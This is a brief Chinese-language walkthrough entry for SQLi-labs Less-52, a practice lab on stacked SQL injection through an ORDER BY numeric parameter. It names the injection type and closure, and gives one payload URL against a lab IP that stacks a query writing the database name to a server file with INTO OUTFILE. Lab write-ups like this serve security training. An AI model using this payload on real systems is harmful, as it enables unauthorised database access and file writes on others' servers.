 ![](file/image_aTHf1JxxkD.png)

### Less-52：GET -Blind based - ORDER BY CLAuSE-numeric- stacked injection

**注入类型**

堆叠注入

**闭合方式**

id=\$id

```sql
http://192.168.80.128/sqli-labs/Less-52/?sort=1;
select 'Less-52',database() into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt";
```
